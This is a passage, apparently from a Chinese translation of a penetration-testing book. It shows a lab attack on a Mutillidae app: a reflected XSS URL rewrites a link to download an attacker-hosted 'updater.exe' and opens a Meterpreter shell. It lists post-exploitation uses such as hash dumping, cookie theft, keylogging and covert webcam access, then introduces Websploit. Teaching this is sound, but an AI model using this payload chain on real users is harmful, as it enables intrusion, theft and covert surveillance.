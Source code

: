 让我们将可执行文件放在 Kali VM 上一个快速而简单的 Apache web 服务器的默认文件夹中，并制作一个脚本发送给潜在目标，以传递一个反射的 XSS JavaScript，现在将受害者的浏览器指向下载可执行文件。

这就是它的样子：

```
http://172.16.30.129/mutillidae/index.php?page=user-info.php&username= <script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");  AllLinks[0].href = "http://172.16.30.128/updater.exe"; }</script>
```

当我们将这个快速而肮脏的电子邮件发送到我的 Windows 7 虚拟机上，我们可以假设用户有超过 50%的机会看到`updater.exe`文件名，并将其与我信任的网络应用程序相关联，然后执行。在我们的 Kali 终端会话中观察到这一情况，我们得到了一个好消息，他们已经相遇并且现在联系上了！Meterpreter 现在作为我们的提示符，一个快速的`dir`命令显示了我们正在运行的目录的内容（如下图所示）。很明显，我们现在已经进入了 Windows 机器的内部；但是我们可以从这里做些什么呢？

![](img/B03918_06_15-1.png)

恭喜，我们现在有了远程 shell 访问！

Meterpreter 非常强大；有了这个访问权限，你现在可以在不被对方知晓的情况下管理受害者的计算机。以下是在我们的网络应用程序渗透测试中可能有用的一些东西：

+   转储哈希并操纵或窃取 cookie

+   秘密或公开地使用系统网络摄像头和麦克风

+   进行键盘记录

+   上传、下载、编辑、删除、创建、移动和搜索文件和目录

+   杀死或生成进程，修改注册表，或关闭/重新启动/休眠机器

+   查看网络和代理配置并配置端口转发

+   查看系统和用户信息并提升权限

总的来说，这是一些可怕的东西，应该清楚地认识到网络应用程序有责任确保他们不会让他们的用户陷入这种境地。

如果我们遇到更新的浏览器或者更加防御严密的主机，这种简单的基于 exe 的利用可能不会有太大作用。通过更高级的 Metasploit 功能、创造性的有效负载，甚至是无文件利用的熟练使用，这些防御措施通常可以被规避。

### Metasploit 的以网络为焦点的表亲——Websploit

Metasploit 的扫描和利用能力范围令人震惊，通过插件和模块的开放扩展，它获得了当之无愧的多功能和强大的声誉。然而，有时你可能在寻找一个网络应用程序的焦点，这就是一个名为**Websploit**（[`sourceforge.net/p/websploit/wiki/Home/`](https://sourceforge.net/p/websploit/wiki/Home/)）的类似开源框架发挥作用的地方。就像 Metasploit 一样，它提供了一个以命令行为重点的方法来调用和加载模块。它还共享了通过插件和模块的可扩展性，这些都帮助 Metasploit 保持在渗透测试工具的前沿，但它不是一个全包套件，它专注于我们作为网络渗透测试人员和道德黑客所特有的许多漏洞。

从他们的 Wiki 中列出的模块和插件清单可以很清楚地看出它的目的：

+   **Autopwn**：这是从 Metasploit 借来的，用于扫描和利用目标服务/服务器

+   **wmap**：这可以扫描或爬取从 Metasploit `wmap`插件借来的目标

+   **格式感染器**：将反向和 BIND 有效负载注入文件格式

+   **Phpmyadmin**：搜索目标的`phpmyadmin`登录页面

+   **lfi**：这可以扫描和绕过本地文件包含漏洞并绕过一些 WAF

+   Apache 用户：可以搜索服务器用户名目录（与 Apache web 服务器一起使用时）
